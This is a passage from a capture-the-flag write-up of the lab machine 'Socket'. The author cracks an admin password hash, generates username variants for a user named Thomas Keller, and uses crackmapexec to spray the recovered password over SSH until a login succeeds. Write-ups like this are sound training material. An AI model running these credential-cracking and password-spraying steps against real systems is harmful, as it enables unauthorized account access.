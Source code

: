 There’s only one user in the `users` table. I put the hash through [crackstation](https://crackstation.net/) to get the password for the `admin` user.

![Untitled](./images/Untitled6.png)

Digging through the other user I find that `Thomas Keller` wrote a message in the `anwser` table with the admin user.

### SSH Enum

My assumption is that `Thomas Keller` is the admin for the website and most likely has reused the same password for `ssh`. But I need a list of usernames; for this I use [username-anarchy](https://github.com/urbanadventurer/username-anarchy):

```ansi
┌──(nickvd㉿kali)-[~/Boxes/Socket/scripts]
└─$ ./username-anarchy.rb thomas keller
thomas
thomaskeller
thomas.keller
thomaske
thomkell
thomask
t.keller
tkeller
kthomas
k.thomas
kellert
keller
keller.t
keller.thomas
tk
```

To quickly test these, I dump them in a file named `users.txt` and run them through `crackmapexec`:

```ansi
┌──(nickvd㉿kali)-[~/Boxes/Socket/scripts]
└─$ crackmapexec ssh 10.10.11.206 -u users.txt -p denjanjade122566
SSH         10.10.11.206    22     10.10.11.206     [*] SSH-2.0-OpenSSH_8.9p1 Ubuntu-3ubuntu0.1
SSH         10.10.11.206    22     10.10.11.206     [-] thomas:denjanjade122566 Authentication failed.
SSH         10.10.11.206    22     10.10.11.206     [-] thomaskeller:denjanjade122566 Authentication failed.
SSH         10.10.11.206    22     10.10.11.206     [-] thomas.keller:denjanjade122566 Authentication failed.
SSH         10.10.11.206    22     10.10.11.206     [-] thomaske:denjanjade122566 Authentication failed.
SSH         10.10.11.206    22     10.10.11.206     [-] thomkell:denjanjade122566 Authentication failed.
SSH         10.10.11.206    22     10.10.11.206     [-] thomask:denjanjade122566 Authentication failed.
SSH         10.10.11.206    22     10.10.11.206     [-] t.keller:denjanjade122566 Authentication failed.
SSH         10.10.11.206    22     10.10.11.206     [+] tkeller:denjanjade122566
```
